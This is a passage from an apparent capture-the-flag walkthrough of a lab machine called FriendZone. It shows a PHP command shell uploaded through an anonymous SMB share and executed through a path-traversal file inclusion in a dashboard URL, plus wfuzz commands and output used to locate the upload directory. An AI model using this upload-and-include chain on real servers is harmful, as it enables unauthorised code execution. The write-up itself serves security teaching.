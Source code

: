     root@kali# smbclient -N //10.10.10.123/Development -c 'put cmd.php 0xdf.php'
    putting file cmd.php as \0xdf.php (0.6 kb/s) (average 0.6 kb/s)
    

Now, on visiting
`https://administrator1.friendzone.red/dashboard.php?image_id=&pagename=../../../etc/Development/0xdf&cmd=id`,
I get output:

![1549992654973](https://0xdfimages.gitlab.io/img/1549992654973.png)

Even if I had not known where the directory was on disk, I could have made
some guesses and got it with fuzzing. For example, I’ll assuming the share is
a folder named `Development`. I’ll start that it’s likely in the root or one
level up. So I’ll make a word list from my box:

    
    
    root@kali# ls -d /* > root_dirs 
    root@kali# echo "/" >> root_dirs
    

Then I can `wfuzz` with the following url:
`https://administrator1.friendzone.red/dashboard.php?image_id=&pagename=../../..FUZZ/Development/0xdf&cmd=id`.
I’ll use `../` to move up three levels presumably to the system root, and then
`FUZZ` to try each directory (including `/`), and then `Development/0xdf`.
I’ll add the `cmd=id` parameter to give some output to look for. With no
output, `wfuzz` reports 0 lines. I’ll hide that with `--hl 0`. It finds the
directory in `/etc`:

    
    
    root@kali# wfuzz --hl 0 -c -w ./root_dirs -H 'Cookie: FriendZoneAuth=e7749d0f4b4da5d03e6e9196fd1d18f1' 'https://administrator1.friendzone.red/dashboard.php?image_id=&pagename=../../..FUZZ/Development/0xdf&cmd=id'
    
    ********************************************************
    * Wfuzz 2.3.4 - The Web Fuzzer                         *
    ********************************************************
    
    Target: https://administrator1.friendzone.red/dashboard.php?image_id=&pagename=../../..FUZZ/Development/0xdf&cmd=id
    Total requests: 27
    
    ==================================================================
    ID   Response   Lines      Word         Chars          Payload    
    ==================================================================
    
    000004:  C=200      1 L       40 W          403 Ch        "/etc"
    
    Total time: 0.315563
    Processed Requests: 27
    Filtered Requests: 26
    Requests/sec.: 85.56111
    

### Shell
